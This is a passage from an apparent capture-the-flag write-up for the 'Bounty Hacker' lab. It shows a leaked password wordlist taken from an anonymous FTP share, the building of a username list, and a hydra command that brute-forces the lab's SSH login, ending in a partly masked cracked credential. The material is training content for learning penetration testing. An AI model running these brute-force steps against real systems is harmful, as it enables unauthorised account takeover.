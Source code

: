 ```
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

That is maybe a list with user passwords. That sound too stupid. Especially to put that on an `FTP` server with `anonymous` login. But the filename, `locks.txt` might give us the idea this is the case.

The content of `task.txt`:

```
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have maybe 2 more usernames. However, I suspect `Vicious` to be a Vicious system :-D Anyway, we do not know, so let's save these usernames to our potential `usernames.txt`.

```commandline
$ cd Documents/THM/bounty-hacker    # In case you where Lost In Space, bof that Netflix serie honestly
$ echo "vicious" >> usernames.txt
$ echo "lin" >> usernames.txt
```

Let's move on now!

## Brute forcing the user accounts

As we have still no clue honestly, we have maybe usernames, and passwords. So we need to try out to bruteforce the `ssh` server. For this I used a very good tool, `hydra` which is able to bruteforce a lot of online services.

```commandline
hydra -t 16 -L usernames.txt -P locks.txt $IP ssh
```

Which revealed me:

```commandline
[22][ssh] host: 10.10.23.89   login: lin   password: R***r4gonSynd1***3
```
